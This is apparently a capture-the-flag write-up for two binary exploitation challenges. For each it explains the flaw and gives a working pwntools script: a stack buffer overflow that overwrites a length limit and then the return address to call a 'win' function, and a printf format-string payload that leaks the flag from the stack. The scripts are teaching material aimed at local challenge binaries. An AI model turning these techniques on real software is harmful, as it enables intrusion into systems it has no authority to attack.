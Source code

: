 
### Unpwnable Shop
This challenge lets us **insert our name** to access the shop. looking closely we can see that the **limit** of our input is positioned just after our name in the **stack** and also its initial value is 81! just enough to insert our name and **overwrite the limit** for later.
After inserting our name the program asks us what do we want to do, if we answer 69 we access a unique dialogue that makes us **re-input our name**, but this time the limit is whatever we inserted before, so if we send 88 bytes (76 for the username, 4 for the limit and 8 for the rbp), and the **address of the 'win' function** we successfully **overwrite** the return address and get the flag.

**Vulnerability**: [ret2win](https://book.hacktricks.xyz/binary-exploitation/stack-overflow/ret2win)

```py
#!/usr/bin/env python3
from pwn import remote, args, ELF, p64, p32

elf = ELF("./unpwnable")
if args.REMOTE:
    r = remote('localhost', 1338) #Change host and port
else:
    r = elf.process()

# Overwriting limit
r.recvuntil(b':')
r.sendline(b'a' * 76 + p32(96))

# Sending right choice
r.recvuntil(b'stuff')
r.sendline(b'69')

#Overwriting return address
r.recvuntil(b'it.')
r.sendline(b'a'*88 + p64(elf.sym['win']))
r.recvuntil(b'Bye!\n')

#Flag!
r.interactive()
```

### E.L.I.A
This challenge first reads the flag from the file `flag.txt` and saves it on the **stack**. Then, it requests input from the user and subsequently prints it insecurely using `printf` without any **defined format**.

This executable can therefore be exploited if the correct offsets on the stack of the flag (from 8 to 13) are found and used together with `%p` in the format `%x$p` where *x* is the offset.

```py
#!/usr/bin/env python3
from pwn import args, remote, process

# Change this to remote if you want to run it on remote server
if args.REMOTE:
    r = remote('localhost', 1339) # change host and port
else:
    r = process('./elia')

r.recvuntil(b'?\n')
PAYLOAD = b''
for i in range(8, 13):
    PAYLOAD += f'%{i}$p'.encode()

r.sendline(PAYLOAD)
flag = [int(i, 16) for i in r.recvline().decode().split('0x')[1:]]
```